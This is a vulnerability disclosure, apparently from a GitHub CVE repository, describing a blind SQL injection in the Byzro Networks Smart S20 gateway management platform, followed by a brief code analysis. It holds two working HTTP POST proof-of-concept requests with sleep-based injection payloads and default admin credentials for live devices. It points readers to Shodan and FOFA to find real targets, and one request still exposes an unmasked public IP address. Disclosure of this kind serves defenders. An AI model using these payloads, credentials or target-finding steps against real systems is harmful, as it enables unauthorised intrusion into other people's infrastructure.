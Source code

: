 There is a SQL injection vulnerability in Byzro Networks Smart S20 management platform

#### 1.Vulnerability description

Beijing Baizhuo Network Technology Co., Ltd. (hereinafter referred to as Baizhuo Network) is a high-tech enterprise dedicated to building the next generation of secure Internet.
There is a SQL injection vulnerability in Byzro Networks Smart S20 gateway intelligent management platform. Attackers can exploit vulnerabilities to gain server permissions and manipulate server files to obtain sensitive information.

#### 2.Impact of vulnerabilities

Smart S20

#### 3.Vulnerability location

/sysmanage/sysmanageajax.php

#### 4.Recurrence of vulnerabilities

To protect privacy, the public IP addresses in the following examples have been coded and can be tested based on search engines such as shadon and fofa.

##### Case 1

(1)After entering the login page, the account password is admin/admin.

![](https://github.com/rockersiyuan/CVE/blob/main/smart%20s20.assets/image-20240128012332771.png)

(2)Construct the following POC and execute the blind injection successfully. Note: The cookie field needs to be replaced with the value after login, and test2 cannot be repeated during the test.

```
POST /sysmanage/sysmanageajax.php HTTP/1.1
Host: 221.xxx.xxx.134:8443
Cookie: PHPSESSID=f3723499e56eadbbdba2390af1bd85af
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

src=manageadmin&type=add&id=(select*from(select+if(length(database())=3,sleep(5),1))a)|1|1&value=test3|123456
```

![](https://github.com/rockersiyuan/CVE/blob/main/smart%20s20.assets/image-20240128011935044.png)

There is a delay in page response echo, which proves the existence of SQL injection vulnerability.

##### Case 2

(1)Enter the login page, the account password is admin/sssw-0476.

![](https://github.com/rockersiyuan/CVE/blob/main/smart%20s20.assets/image-20240128012351673.png)

(2)Construct the following POC and execute the blind injection successfully. Note: The cookie field needs to be replaced with the value after login, and test2 cannot be repeated during the test.

```
POST /sysmanage/sysmanageajax.php HTTP/1.11
Host: 58.xxx.xxx.60:8443
Cookie: PHPSESSID=b7e24f2cb8b51338e8531e0b50da49ee
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded;
Content-Length: 109
Origin: https://58.18.133.60:8443
Referer: https://58.18.133.60:8443/sysmanage/manageadmin.php
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: 1.1.1.1
X-Originating-Ip: 1.1.1.1
X-Remote-Ip: 1.1.1.1
X-Remote-Addr: 1.1.1.1
Te: trailers
Connection: close

src=manageadmin&type=add&id=(select*from(select+if(length(database())=3,sleep(5),1))a)|1|1&value=test2|123456
```
![](https://github.com/rockersiyuan/CVE/blob/main/smart%20s20.assets/image-20240128011551226.png)

There is a delayed response, and the 5s is consistent with the injection statement, so there is a SQL injection vulnerability.

#### 5.Code analysis

In sysmanageajax.php, first of all, the $post_src and $post_type parameters are controllable and are passed in through the post method.

![](https://github.com/rockersiyuan/CVE/blob/main/smart%20s20.assets/image-20240128005938583.png)

Therefore, you can control the input of src=manageadmin and type=add, so that the program logic jumps to the content as shown below.

![](https://github.com/rockersiyuan/CVE/blob/main/smart%20s20.assets/image-20240128010425584.png)

The $rolseid parameter here is directly spliced into the SQL query statement without any security filtering, so there is a SQL injection point. The attacker only needs to control the id parameter passed in through the post method to cause SQL injection.
